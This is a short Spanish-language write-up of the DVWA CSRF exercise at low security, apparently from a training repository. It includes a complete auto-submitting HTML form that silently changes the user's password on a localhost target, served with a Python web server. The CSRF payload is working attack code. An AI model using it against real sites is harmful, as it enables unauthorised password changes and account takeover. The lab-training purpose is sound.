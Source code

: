 
# 2.3-CSFR

## LOW

En este ejercicio, vamos a realizar la ejecución de un cambio automatico de la contraseña del usuario. Para ello vamos exponer un archivo html en nuestro servidor python para que actue sobre nuestra maquina DVWA cuando se acceda al contenido del mismo. Para ello vamos a indicar el siguiente contenido en nuestro archivo html:

```html

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="pass" />
      <input type="hidden" name="password&#95;conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Y ejecutamos nuestro servidor python desde el directorio donde tenemos alojado nuestro archivo:

    python3 -m http.server

Y tras acceder al mismo desde el navegador, podemos observar que la contraseña por defecto ha cambiado:

![Login Fail](./images/loginfail.png)

Y tras acceder con las credenciales nuevas, obtenemos acceso a nuestro panel:

![Imagen Dentro](./images/login.png)


